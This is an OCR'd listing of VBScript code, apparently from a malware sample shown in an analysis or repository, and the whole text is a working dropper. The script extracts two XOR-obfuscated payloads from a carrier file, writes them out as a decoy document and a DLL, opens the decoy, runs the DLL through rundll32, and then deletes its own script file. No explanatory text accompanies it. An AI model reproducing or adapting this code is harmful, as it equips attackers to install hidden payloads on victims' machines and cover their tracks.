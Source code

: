 str = ReadBinary (infile,L1,offset1)                                            
WriteBinary outfile1, str                                                      
str = ReadBinary (infile,L2,offset2)                                            
WriteBinary outfile2, str                                                       
Function ReadBinary(FileName,length,offset)                                    
  Dim Buf(), I                                                                  
  With CreateObject("ADODB.Stream")                                           
    .Mode = 3: .Type = 1: .Open: .LoadFromFile FileName : .Position = offset    
    Len =length -1                                                             
    ReDim Buf(Len)                                                              
    For I = 0 To Len: if(I=0)  then Buf(I)=(AscB(.Read(1))) else if ((I mod 2)=0) then Buf(I)=(AscB(.Read(1)) xor AscB(chr(65))) else Buf(I)=(AscB(.Read(1)) xor AscB(chr(67))) end if           
    Next                         
    .Close                                                                      
  End With                                                                      
  ReadBinary = Buf                                                              
End Function                                                                    
Sub WriteBinary(FileName, Buf)                                                  
  Dim I, aBuf, Size, bStream                                                    
  Size = UBound(Buf): ReDim aBuf(Size \ 2)                                      
  For I = 0 To Size - 1 Step 2                                                  
      aBuf(I \ 2) = ChrW(Buf(I + 1) * 256 + Buf(I))                             
  Next                                                                          
  If I = Size Then aBuf(I \ 2) = ChrW(Buf(I))                                   
  aBuf=Join(aBuf, "")                                                         
  Set bStream = CreateObject("ADODB.Stream")                                  
  bStream.Type = 1: bStream.Open                                                
  With CreateObject("ADODB.Stream")                                           
    .Type = 2 : .Open: .WriteText aBuf                                          
    .Position = 2: .CopyTo bStream: .Close                                      
  End With                                                                      
  bStream.SaveToFile FileName, 2: bStream.Close                                 
  Set bStream = Nothing                                                         
End Sub                                                                         
set shell=createobject("Shell.Application")      
shell.ShellExecute "C:\Documents and Settings\<username>\Local Settings\Application Data\t.doc"                 
shell.ShellExecute "rundll32","""C:\Documents and Settings\<username>\Local Settings\Application Data\mm.dll"",Setting"                 
Set xa = CreateObject("Scripting.FileSystemObject")                        
If xa.FileExists("C:\Documents and Settings\<username>\Local Settings\Application Data\ss.vbs") Then                                            
Set xb = xa.GetFile("C:\Documents and Settings\<username>\Local Settings\Application Data\ss.vbs")                                              
xb.Delete                                                                    
End If




12345678910111213141516171819202122232425262728293031323334353637383940414243444546474849505152535455565758596061
